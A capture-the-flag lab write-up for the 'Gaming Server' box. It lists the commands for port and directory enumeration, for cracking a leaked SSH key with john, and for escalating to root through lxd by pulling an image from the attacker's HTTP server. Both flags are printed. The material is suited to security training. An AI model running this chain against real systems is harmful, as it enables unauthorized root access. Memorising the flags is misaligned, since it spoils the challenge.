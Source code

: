 # Gaming Server - Easy

```shell
nmap -T4 -p- -A 10.10.238.32

feroxbuster -u http://10.10.238.32 -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip --extract-links --scan-limit 2 --filter-status 401,403,404,405,500 --silent

vim id_rsa

chmod 600 id_rsa

ssh2john id_rsa > hash_id_rsa

john --wordlist=dict.lst hash_id_rsa

ssh john@10.10.238.32 -i id_rsa
#login successful

id
#part of lxd group

#we already have the alpine build tar archive
#on attacker machine
python3 -m http.server

#on victim ssh
cd /tmp

wget http://10.14.31.212:8000/alpine-v3.16-x86_64-20221024_0528.tar.gz

lxc image import ./alpine-v3.16-x86_64-20221024_0528.tar.gz --alias myimage

lxc image list

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh
#root shell

id
#root

cd /mnt/root/root

cat root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 7.6p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.29

* We can enumerate the webpage for hidden directories and clues.

* The source code for the webpage mentions a user named john.

* We enumerate the following directories:

  * /logo.png
  * /featured-character.jpg
  * /video.jpg
  * /about.php
  * /robots.txt
  * /secret
  * /uploads

* /about.php contains a file upload option, /secret contains a secretKey, and /uploads contains a few files.

* /secret contains a file with a RSA private key; and there is a dictionary in /uploads.

* We can attempt to crack the key using ssh2john, along with the given dictionary; we get the passphrase 'letmein'.

* We can login as 'john' with this via SSH.

* Using 'id', we can see that john is part of the lxd group - this can be exploited, we can refer the steps using online articles.

* Following the steps, we get root shell.

```markdown
1. What is the user flag? - a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

2. What is the root flag? - 2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```
